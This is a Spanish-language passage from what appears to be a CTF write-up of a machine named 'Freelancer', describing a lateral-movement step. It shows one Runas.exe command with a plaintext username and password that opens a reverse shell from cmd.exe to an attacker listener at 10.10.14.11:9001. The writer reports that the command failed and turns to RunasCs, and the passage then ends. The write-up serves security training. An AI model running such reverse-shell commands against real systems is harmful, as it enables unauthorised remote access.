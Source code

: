 A continuación, ejecutamos el siguiente comando para realizar el movimiento lateral, escuchando en el puerto correspondiente:

```bash
.\Runas.exe mikasaAckerman IL0v3ErenY3ager cmd.exe -r 10.10.14.11:9001
```

Sin embargo, no funcionó, así que decidí utilizar **RunasCs** como alternativa:

<figure>
    <img src="/assets/img/Freelancer/imagen54.png" alt="Uso de RunasCs">
</figure>
<figure>